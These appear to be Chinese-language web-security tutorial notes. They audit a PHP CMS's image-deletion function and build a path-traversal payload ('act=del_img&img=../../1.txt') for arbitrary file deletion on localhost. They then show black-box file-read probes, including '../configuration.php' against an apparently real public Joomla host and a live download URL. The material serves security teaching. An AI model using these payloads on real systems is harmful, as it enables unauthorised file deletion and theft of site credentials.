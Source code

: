 ![1647057966547-33c8232e-08ef-45ee-b626-4054a71fb20f.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913103325063-1627194000.png)

```plain
继续看删除代码，所以也有act=del_img
```

![1647058012898-dabcd795-242a-4544-8e68-014c78127079.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913103325141-1850489314.png)

```plain
构造触发代码：http://127.0.0.1:8092/admin/admin_article.php?act=del_img
@unlink($upfiles_dir.$img);
找upfiles_dir定义的地方
$upfiles_dir.=date("Y/m/d/");
可以知道upfiles_dir是年月日，然后在创建一个文件
```

![1647062024424-02f581e2-c03e-496f-98ec-11d3445cb00f.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913103325312-902496524.png)

```plain
这个是拼接语句，继续寻找发现在/upload/admin/include/admin_common.inc.php文件中有定义
定义语句：$upfiles_dir="../data/".$_CFG['updir_images']."/";
```

![1647062469916-7efd0711-7768-4b2c-884c-372041064d1e.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913103325524-2012016673.png)

```plain
在之前的文件也包含了require_once(dirname(__FILE__).'/include/admin_common.inc.php');

构造payload：http://127.0.0.1:8092/admin/admin_article.php?act=del_img&img=../../1.txt
```

![1647063397143-9052f3ab-f256-4c55-9c19-2b64145386a5.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913103325119-1750766346.png)

- 黑盒分析-下载读取-下载资源URL参数

------

```plain
67.202.70.133 Joomla






files/readfile.php?file=../configuration.php



http://down.znds.com/getdownurl/?s=L2Rvd24vMjAyMjAxMjUvbWd0dkRCRUlfNi4wLjkwMl9kYW5nYmVpLmFwaw==

L2Rvd24vMjAyMjAxMjUvbWd0dkRCRUlfNi4wLjkwMl9kYW5nYmVpLmFwaw==是base64编码


#黑盒探针
1、URL参数名及参数值分析：
参数名：英文对应翻译
参数值：目录或文件名
2、功能点自行修改后分析：
文件下载，删除，读取等
```